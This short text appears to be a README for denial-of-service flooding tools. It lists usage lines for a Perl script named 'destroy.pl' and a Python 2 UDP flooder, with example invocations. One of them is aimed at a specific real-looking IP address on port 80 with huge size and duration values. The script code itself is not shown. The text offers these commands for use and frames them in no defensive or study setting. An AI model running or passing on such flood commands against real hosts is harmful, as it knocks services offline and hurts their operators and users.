 # Commands

$ Destroy 

perl destroy.pl 76.223.105.230 80 65500 50000000000

Usage: destroy {ip} {port} {time}

Example: destroy 1.1.1.1 80 60

$ UDP

python2 udp.py {ip} {port} 0 0

Usage: udp {ip} {port} 

Example: udp 1.1.1.1 80 


